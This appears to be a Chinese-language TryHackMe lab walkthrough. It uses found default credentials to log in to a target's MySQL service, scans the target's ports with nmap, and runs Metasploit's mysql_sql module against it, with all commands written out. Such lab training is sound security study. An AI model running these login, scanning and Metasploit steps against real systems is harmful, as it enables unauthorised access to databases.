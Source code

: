 **本小节示例场景**

有时候，在枚举目标服务信息的过程中，我们能获得一些初始凭据，然后我们就可以使用这些凭据来进一步枚举和利用目标的MySQL 服务。

在本小节中，将假设存在以下示例场景：我们在枚举Web服务器的子域时找到了一个登录凭据：“root:password”。在尝试使用凭据进行SSH登录失败后，我们接下来将尝试使用上述凭据进行 MySQL 登录。（mysql -h \[IP] -u \[username] -p ）

**环境要求**

我们需要在本地攻击机系统上安装 MySQL 以便我们可以连接到目标机的远程 MySQL 服务器；我们可以使用`sudo apt install default-mysql-client`命令进行安装， 这将会在本地攻击机上安装一个MySQL客户端。

接下来，我们将使用 Metasploit工具，它在 Kali Linux 和 Parrot OS 上都是默认安装的。

**备选方案**

我们使用 Metasploit 进行的枚举操作 也可以通过手动完成或者通过使用其他非 Metasploit 工具完成（例如使用 nmap 的 mysql-enum 脚本）。

* https://nmap.org/nsedoc/scripts/mysql-enum.html
* https://www.exploit-db.com/exploits/23081

**答题**

tips：在本文相关的Tryhackme实验房间页面 部署目标靶机。

在本地攻击机上安装MySQL（客户端）：

```bash
sudo apt install default-mysql-client
```

![image-20230318170717498](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230318170717498.png)

验证已提供的登录凭据（root：password）是否可连接到目标的MySQL数据库服务：

```bash
#mysql -h [IP] -u [username] -p
mysql -h 10.10.63.194 -u root -p
#输入密码：password
```

![image-20230318171107085](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230318171107085.png)

针对目标机进行端口扫描：

```
nmap -A -p- -T4 10.10.63.194
```

![image-20230318173157060](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230318173157060.png)

> 扫描到目标机开放了两个端口：22/ssh、3306/mysql

启动msf，搜索`mysql_sql`模块，然后选择该模块、设置模块参数(已知条件：用户和密码是root/password)，在参数设置完成后执行该模块：

```bash
msfconsole
search mysql_sql
use 0 
options
set PASSWORD password
set RHOSTS 10.10.63.194
set USERNAME root
run
```

